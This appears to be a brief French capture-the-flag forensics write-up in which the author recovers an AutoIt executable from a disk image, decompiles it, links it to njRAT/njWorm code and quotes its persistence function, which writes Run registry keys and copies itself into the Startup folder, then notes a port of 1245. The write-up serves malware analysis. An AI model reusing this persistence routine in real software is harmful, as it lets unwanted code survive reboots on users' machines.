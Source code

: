 # Solution

WU rapide écrit par ribt :
- on  monte la 2e partition de l'image et récupère `C/Users/operator/AppData/Roaming/aL4N.exe` (j'ai triché mais en passant des YARA sur le FS on devrait tomber dessus) -> gros score VT
- c'est du AutoIT qu'on peut décompiler avec https://github.com/nazywam/AutoIt-Ripper/, on récupère [script.au3](./script.au3)
-  on retrouve beaucoup de bout de code sur https://github.com/mwsrc/njRAT/blob/master/njWorm/src.txt.au3
- on voit la fonction de persistence :
```
Func INS ( )
	If RegRead ( "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE ) <> ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) Then
		RegWrite ( "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE , "REG_SZ" , ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) )
	EndIf
	If RegRead ( "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE ) <> ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) Then
		RegWrite ( "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" , $EXE , "REG_SZ" , ChrW ( 34 ) & @AutoItExe & ChrW ( 34 ) )
	EndIf
	If FileExists ( @StartupDir & "\" & $EXE ) = False Then
		FileCopy ( @AutoItExe , @StartupDir & "\" & $EXE , 1 )
	EndIf
	If @error Then
	EndIf
EndFunc
```
- On trouve la technique en copiant le path dans Google : 

![](./google.png)

- On retrouve facilement le port : `Local $PORT = 1245`

